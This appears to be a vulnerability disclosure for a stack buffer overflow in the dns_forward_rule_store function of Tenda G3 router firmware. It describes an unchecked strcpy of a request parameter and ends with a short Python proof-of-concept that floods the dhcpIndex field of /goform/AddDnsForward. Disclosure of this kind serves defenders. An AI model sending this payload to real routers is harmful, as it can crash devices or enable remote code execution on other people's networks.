


# Tenda G3 dns_forward_rule_store
### Overview
vendor: Tenda

product: G3

version: <= G3V3.0br_V15.11.0.17

type: Stack Overflow
### Vulnerability Description
Tenda G3 G3V3.0br_V15.11.0.17 were discovered to contain a stack overflow in the dns_forward_rule_store function.
### Vulnerability details
Stack-based buffer overflow in function dns_forward_rule_store on Tenda G3 before G3V3.0br_V15.11.0.17 devices allow remote attackers to cause a denial of service or remote code execution via a crafted parameter for the http post request.

In the function dns_forward_rule_store line 21, it reads in a user-provided parameter, and the variable rules is passed to the strcpy function without any length check, which may overflow the stack-based buffer. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.



### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/AddDnsForward'
payload = {
    "dhcpIndex": 'a' * 2000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
